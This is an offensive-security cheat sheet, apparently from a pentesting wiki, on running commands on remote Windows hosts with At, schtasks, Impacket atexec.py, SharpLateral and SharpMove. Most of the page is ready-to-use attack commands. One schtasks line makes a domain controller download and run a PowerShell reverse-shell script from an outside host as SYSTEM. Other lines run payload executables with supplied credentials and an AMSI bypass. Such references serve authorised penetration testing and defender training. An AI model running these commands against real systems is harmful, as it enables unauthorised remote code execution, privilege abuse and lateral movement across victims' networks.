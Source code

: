 # AtExec / SchtasksExec

## How Does it works

At allows to schedule tasks in hosts where you know username/(password/Hash). So, you can use it to execute commands in other hosts and get the output.

```
At \\victim 11:00:00PM shutdown -r
```

Using schtasks you need first to create the task and then call it:

```bash
schtasks /create /n <TASK_NAME> /tr C:\path\executable.exe /sc once /st 00:00 /S <VICTIM> /RU System
schtasks /run /tn <TASK_NAME> /S <VICTIM>
```

```bash
schtasks /create /S dcorp-dc.domain.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "MyNewtask" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/InvokePowerShellTcp.ps1''')'"
schtasks /run /tn "MyNewtask" /S dcorp-dc.domain.local
```

You can use **Impacket's `atexec.py`** to execute commands on remote systems using the AT command. This requires valid credentials (username and password or hash) for the target system.

```bash
atexec.py 'DOMAIN'/'USER':'PASSWORD'@'target_ip' whoami
```

You can also use [SharpLateral](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral schedule HOSTNAME C:\Users\Administrator\Desktop\malware.exe TaskName
```

You can use [SharpMove](https://github.com/0xthirteen/SharpMove):

```bash
SharpMove.exe action=taskscheduler computername=remote.host.local command="C:\windows\temp\payload.exe" taskname=Debug amsi=true username=domain\\user password=password
```

More information about the [**use of schtasks with silver tickets here**](../active-directory-methodology/silver-ticket.md#host).

